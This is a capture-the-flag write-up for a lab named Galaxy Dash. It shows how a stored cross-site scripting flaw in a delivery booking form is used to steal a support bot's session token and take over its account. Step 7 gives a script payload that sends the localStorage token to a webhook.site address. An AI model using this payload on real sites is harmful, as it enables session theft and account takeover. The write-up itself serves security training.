OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert
Galaxy Dash (XSS) (Medium)

Step 1: Register
Register an account and you’ll land on the dashboard page:

Step 2: Deliveries
From here, you can set up a “New Delivery”. So…click “New Delivery”.

Step 3: Set up the route
From here, you can set the route (origin location) to the destination location.

Select any other fields e.g Cargo Details and proxy your traffic. Then hit “Book Delivery”

Step 4: POST
You’ll see a POST request to the /api/bookings endpoint. This POST req contains various fields. The one we’re interested in is called “cargo_size”. It’s currently set to medium (because that’s what I selected in the previous step). But we can change this.

Step 5: XSS
Our session token is storage in localStorage, so we can use our alert to pop up with the ‘token’. Change the cargo_size to reflect this:

Step 6: Download Invoice
Now, in order to make the XSS trigger, we must hit “Download Invoice”.

As you can see in the screenshot, the XSS will trigger and contain our own ‘token’. But we want to use this to compromise another account.

Step 7: Webhook
I used webhook.site as a temporary place for the token to be sent to, so that I can read the details of any other account that gets hit with the XSS.
So run through the process of setting up a new delivery, but this time, use the payload below (your webhook will obviously be unique):
<script>fetch('https://webhook.site/<YOUR-WEBHOOK-ID>?token='+encodeURIComponent(localStorage.getItem('token')))</script>
Step 8: Request Support
Once you’ve done this, you’ll see a “Back to List” button. Click this:

Click “Request Support” and you’ll see a pop up box appear:

In the pop up box, select the delivery you just made, set it to “Invoice Review” and hit “Submit Request”:

Step 9: Wait
After around 60 seconds, you should see a hit to your webhook. The token should be visible at the bottom of the page:

Step 10: Copy Token
Copy the token from webhook, open dev-tools and paste in your newly obtained token:

Refresh the page and you’ll now see that you have become the “Support Bot” user account and the flag will appear in the response:

Thanks for reading!
🍺 Quick message to readers: if my writeups help you, please consider a small donation to my buymeacoffee link here. This is not required but is very much appreciated! 🍺